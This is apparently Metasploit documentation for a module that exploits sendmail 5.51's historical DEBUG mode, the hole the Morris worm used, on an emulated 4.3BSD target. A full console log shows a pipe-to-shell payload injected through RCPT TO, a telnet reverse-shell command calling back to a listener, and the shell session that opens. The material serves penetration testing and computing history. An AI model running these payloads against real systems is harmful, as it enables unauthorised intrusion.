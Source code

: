## Vulnerable Application

### Description

This module exploits `sendmail`'s well-known historical debug mode to escape to
a shell and execute commands in the SMTP `RCPT TO` command.

This vulnerability was exploited by the Morris worm in 1988-11-02. Cliff Stoll
reports on the worm in the epilogue of _The Cuckoo's Egg_.

### Setup

A Docker environment for 4.3BSD on VAX is available at
<https://github.com/wvu/ye-olde-bsd>.

For manual setup, please follow the Computer History Wiki's
[guide](http://gunkies.org/wiki/Installing_4.3_BSD_on_SIMH) or Allen Garvin's
[guide](http://plover.net/~agarvin/4.3bsd-on-simh.html) if you're using
[Quasijarus](http://gunkies.org/wiki/4.3_BSD_Quasijarus).

### Targets

```
Id  Name
--  ----
0   @(#)version.c       5.51 (Berkeley) 5/2/86
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

**RPORT**

Set this to the target port. The default is 25 for `sendmail`, but the port may
be forwarded when NAT (SLiRP) is used in SIMH.

**PAYLOAD**

Set this to a Unix command payload. Currently, only `cmd/unix/reverse` and
`cmd/unix/generic` are supported.

## Scenarios

### `sendmail` 5.51 on 4.3BSD

```
msf5 > use exploit/unix/smtp/morris_sendmail_debug
msf5 exploit(unix/smtp/morris_sendmail_debug) > show missing

Module options (exploit/unix/smtp/morris_sendmail_debug):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)

msf5 exploit(unix/smtp/morris_sendmail_debug) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(unix/smtp/morris_sendmail_debug) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(unix/smtp/morris_sendmail_debug) > run

[*] Started reverse TCP double handler on 192.168.56.1:4444
[*] 127.0.0.1:25 - Connecting to sendmail
[*] 127.0.0.1:25 - Enabling debug mode and sending exploit
[*] 127.0.0.1:25 - Expecting: /220.*Sendmail/
[*] 127.0.0.1:25 - Sending: DEBUG
[*] 127.0.0.1:25 - Expecting: /200 Debug set/
[*] 127.0.0.1:25 - Sending: MAIL FROM:<3V900gQTSR70m6QPRYJnf3eoUIe6>
[*] 127.0.0.1:25 - Expecting: /250.*Sender ok/
[*] 127.0.0.1:25 - Sending: RCPT TO:<"| sed '1,/^$/d' | sh; exit 0">
[*] 127.0.0.1:25 - Expecting: /250.*Recipient ok/
[*] 127.0.0.1:25 - Sending: DATA
[*] 127.0.0.1:25 - Expecting: /354 Enter mail.*itself/
[*] 127.0.0.1:25 - Sending:  PATH=/bin:/usr/bin:/usr/ucb:/etc
[*] 127.0.0.1:25 - Sending: export PATH
[*] 127.0.0.1:25 - Sending: sh -c '(sleep 3935|telnet 192.168.56.1 4444|while : ; do sh && break; done 2>&1|telnet 192.168.56.1 4444 >/dev/null 2>&1 &)'
[*] 127.0.0.1:25 - Sending: .
[*] 127.0.0.1:25 - Expecting: /250 Ok/
[*] 127.0.0.1:25 - Sending: QUIT
[*] 127.0.0.1:25 - Expecting: /221.*closing connection/
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo ISj759F8jEik4HAW;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "sh: Connected: not found\r\nsh: Escape: not found\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (192.168.56.1:4444 -> 192.168.56.1:58037) at 2020-02-06 15:51:28 -0600
[!] 127.0.0.1:25 - Do NOT type `exit', or else you may lose further shells!
[!] 127.0.0.1:25 - Hit ^C to abort the session instead, please and thank you

whoami
daemon
cat /etc/motd
4.3 BSD UNIX #1: Fri Jun  6 19:55:29 PDT 1986

Would you like to play a game?
```
